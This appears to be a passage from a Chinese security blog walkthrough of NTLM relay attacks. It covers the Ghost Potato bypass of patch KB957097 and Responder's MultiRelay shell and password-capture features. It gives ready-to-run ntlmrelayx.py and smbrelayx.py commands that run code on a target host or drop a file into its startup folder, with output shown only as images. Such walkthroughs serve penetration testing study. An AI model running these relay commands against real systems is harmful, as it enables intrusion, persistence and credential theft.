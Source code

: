 

shenaniganslabs 放出了漏洞利用poc，基于impacket进行修改，目前只能支持收到http协议请求的情况。该poc在sleep 315秒之后，再发送Type 3认证消息，于是就绕过了KB957097补丁。详情：[Ghost Potato | Shenanigans Labs](https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html "Ghost Potato | Shenanigans Labs")



该poc实现的效果是在目标机器的启动目录上传指定的文件



```
python ntlmrelayx.py -t smb://10.211.55.7 -smb2support --gpotato-startup test.txt
```




![](https://img-blog.csdnimg.cn/img_convert/f6746574ab041026bd456e5e2514115f.png)



![](https://img-blog.csdnimg.cn/img_convert/bbea11ccb2510a40803e061880fe96c4.png)



**域环境**



**impacket下的smbrelayx.py**



```
./smbrelayx.py -h 10.211.55.7 -c whoami
```




![](https://img-blog.csdnimg.cn/img_convert/c938aa300499b99c8cd2f70c17188f28.png)



**impacket下的ntlmrelayx.py**



```
./ntlmrelayx.py -t smb://10.211.55.7 -c whoami -smb2support
```




![](https://img-blog.csdnimg.cn/img_convert/b0b8a911387205ec9b8d4d9f6248492f.png)



**Responder下的MultiRelay.py脚本**



该脚本功能强大，通过ALL参数可以获得一个稳定的shell，还有抓密码等其他功能。



![](https://img-blog.csdnimg.cn/img_convert/37a4670717b179442e195b355935cb12.png)
